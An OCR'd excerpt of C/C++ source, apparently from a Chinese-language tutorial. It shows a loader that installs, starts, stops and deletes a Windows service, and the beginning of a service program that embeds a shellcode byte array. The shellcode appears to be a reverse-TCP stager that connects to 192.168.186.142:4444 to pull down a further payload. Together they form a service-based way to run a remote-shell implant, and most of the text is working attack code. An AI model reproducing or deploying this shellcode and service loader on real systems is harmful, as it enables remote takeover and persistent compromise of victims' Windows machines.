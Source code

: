 ```text
	printf("Create and Start OK.\n");

	system("pause");

	// 停止并删除服务
	bRet = SystemServiceOperate(szFileName, 2);
	if (FALSE == bRet)
	{
		printf("Stop Error!\n");
	}
	bRet = SystemServiceOperate(szFileName, 3);
	if (FALSE == bRet)
	{
		printf("Delete Error!\n");
	}
	printf("Stop and Delete OK.\n");

	system("pause");
}

```

服务:

```text
// ServiceTest.cpp : 定义控制台应用程序的入口点。
//
// ServiceTest.cpp : 定义控制台应用程序的入口点。
//

#include <stdio.h>
#include <tchar.h>
#include <Windows.h>
#include <Shlwapi.h>
#pragma comment(lib, "Shlwapi.lib")
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\xba\x8e"
"\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0"
"\xb5\xa2\x56\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8"
"\x5f\xff\xd5\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00"
"\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68"
"\x02\xd9\xc8\x5f\xff\xd5\x01\xc3\x29\xc6\x75\xee\xc3";
// 服务入口函数以及处理回调函数
void __stdcall ServiceMain(DWORD dwArgc, char* lpszArgv);
void __stdcall ServiceCtrlHandle(DWORD dwOperateCode);
BOOL TellSCM(DWORD dwState, DWORD dwExitCode, DWORD dwProgress);
void DoTask();

// 全局变量
char g_szServiceName[MAX_PATH] = "ServiceTest.exe";    // 服务名称 
SERVICE_STATUS_HANDLE g_ServiceStatusHandle = { 0 };
```